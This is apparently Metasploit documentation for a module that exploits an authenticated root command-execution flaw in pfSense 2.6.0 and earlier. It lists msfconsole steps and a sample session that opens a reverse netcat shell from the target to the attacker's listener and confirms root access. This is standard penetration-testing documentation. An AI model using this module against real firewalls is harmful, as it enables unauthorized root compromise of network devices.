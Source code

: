 ## Description

This module exploits a vulnerability in pfSense version 2.6.0 and before which allows an authenticated user to execute arbitrary operating system commands as root.

## Vulnerable Application

This module has been tested successfully on version 2.6.0-RELEASE

Installers:

* [pfSense 2.6.0-RELEASE](https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.6.0-RELEASE-amd64.iso.gz)


## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/unix/http/pfsense_config_data_exec`
3. Do: `set RHOST [IP]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Scenarios

### pfSense Community Edition 2.6.0-RELEASE

```
msf6 exploit(unix/http/pfsense_config_data_exec) > use exploit/unix/http/pfsense_config_data_exec 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/http/pfsense_config_data_exec) > set RHOST 1.1.1.1
RHOST => 1.1.1.1
msf6 exploit(unix/http/pfsense_config_data_exec) > set LHOST 2.2.2.2
LHOST => 2.2.2.2
msf6 exploit(unix/http/pfsense_config_data_exec) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[+] The target is vulnerable.
[*] Command shell session 8 opened (2.2.2.2:4444 -> 1.1.1.1:21942) at 2023-03-26 02:10:48 +0300

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```

